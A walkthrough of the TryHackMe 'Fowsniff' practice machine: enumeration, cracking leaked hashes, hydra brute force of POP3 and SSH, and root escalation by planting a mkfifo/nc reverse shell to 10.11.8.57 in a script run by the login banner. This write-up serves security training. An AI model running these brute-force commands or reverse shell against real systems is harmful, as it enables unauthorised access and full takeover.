






# Fowsniff CTF (THM)

- https://tryhackme.com/room/ctf
- March 7, 2023
- easy

---

## Enumeration

### Nmap

1. 22/ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
2. 80/http Apache httpd 2.4.18 ((Ubuntu))
3. 110/pop3 Dovecot pop3d
   - pop3-capabilities: UIDL AUTH-RESP-CODE CAPA TOP SASL(PLAIN) USER RESP-CODES PIPELINING
4. 143/imap Dovecot imapd
   - map-capabilities: IDLE AUTH=PLAINA0001 post-login have IMAP4rev1 LITERAL+ more SASL-IR listed capabilities OK Pre-login LOGIN-REFERRALS ID ENABLE

- it was guided by questions and hints from THM
- Using Google, can you find any public information about them?
  - By googling, get username and hashed passwords from here - https://raw.githubusercontent.com/berzerk0/Fowsniff/main/fowsniff.txt



- save separately the username and password hashes
- cracked password hashes from https://crackstation.net/
- save as pwd.txt
- brute force with hydra to login pop3 service

```sh
$ hydra -L users.txt -P pwd.txt -f $IP pop3 -V
```

- get username and password
- enter pop3 service with nc



- from one of the mail, potential ssh password is found

- try to brute force ssh login with potential password

```sh
$ hydra -L users.txt -p "password_from_mail" ssh://$IP
```

- then, found username

## User Access

- enter ssh with above credentials
- there are many users in this machine

```sh
baksteen@fowsniff:~$ ls /home
baksteen  mauer  mursten  mustikka  parede  sciana  seina  stone  tegel
```

- current user has no sudo access
- run linpeas

```
╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)
uid=1000(stone) gid=1000(stone) groups=1000(stone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),119(lpadmin),120(sambashare)
uid=1001(parede) gid=100(users) groups=100(users),1005(parede)
uid=1002(mauer) gid=100(users) groups=100(users),1002(mauer)
uid=1003(sciana) gid=100(users) groups=100(users),1006(sciana)
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
uid=1005(mursten) gid=100(users) groups=100(users),1003(mursten)
uid=1006(tegel) gid=100(users) groups=100(users),1008(tegel)
uid=1007(seina) gid=100(users) groups=100(users),1007(seina)
uid=1008(mustikka) gid=100(users) groups=100(users),1004(mustikka)
```

- all the users are gid -> users, only stone has sudo

- Executable files

```
╔══════════╣ Executable files potentially added by user (limit 70)
2018-03-11+23:25:44.6493940440 /opt/cube/cube.sh
2018-03-11+20:27:48.0303333080 /etc/update-motd.d/00-header
2018-03-08+22:34:16.8355092010 /etc/postfix/originals/post-install
2018-03-08+22:34:16.8315092340 /etc/postfix/originals/postfix-script
```

```
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
/dev/mqueue
/dev/shm
/home/baksteen
/opt/cube
/run/lock
/run/shm
/run/user/1004
/run/user/1004/systemd
/tmp
/tmp/.font-unix
/tmp/.ICE-unix
/tmp/linpeas.sh
/tmp/lp_out.ansi
/tmp/.Test-unix
```

```
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
  Group users:
/opt/cube/cube.sh
  Group baksteen:
/home/baksteen
```

- check /opt/cube/cube.sh

```
-rw-rwxr-- 1 parede users  851 Mar 11  2018 cube.sh
```





- is cube.sh file used for welcome message of ssh?

- check /etc/update-motd.d/00-header

```sh
baksteen@fowsniff:/etc/update-motd.d$ ls -la | grep 00-header
-rwxr-xr-x  1 root root 1248 Mar 11  2018 00-header
```

- this file will be run by root

```sh
baksteen@fowsniff:/opt/cube$ cat /etc/update-motd.d/00-header
#!/bin/sh
...
#printf "Welcome to %s (%s %s %s)\n" "$DISTRIB_DESCRIPTION" "$(uname -o)" "$(uname -r)" "$(uname -m)"
sh /opt/cube/cube.sh
```

- try to add reverse shell in cube.sh file
- in this machine, nc and mkfifo present
- in cube.sh,

```sh
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4242 >/tmp/f
```



## Root Access

- listen with nc at local machine and
- login again with that user



---

- What is /etc/update-motd.d/00-header?

The /etc/update-motd.d/00-header script in Ubuntu is a part of the update-motd system that generates the message of the day (MOTD) displayed to users when they log in to the system via a terminal. The MOTD typically displays system information such as the hostname, kernel version, and system load, as well as any important news or messages that administrators want to communicate to users.

The 00-header script is the first script that is run when the update-motd command is executed, and it is responsible for generating the header of the MOTD. The header typically includes the system hostname, the date and time, and other basic system information. The 00-header script is usually not modified by users, and any customizations to the MOTD are typically made by adding or modifying scripts in the /etc/update-motd.d/ directory.

---
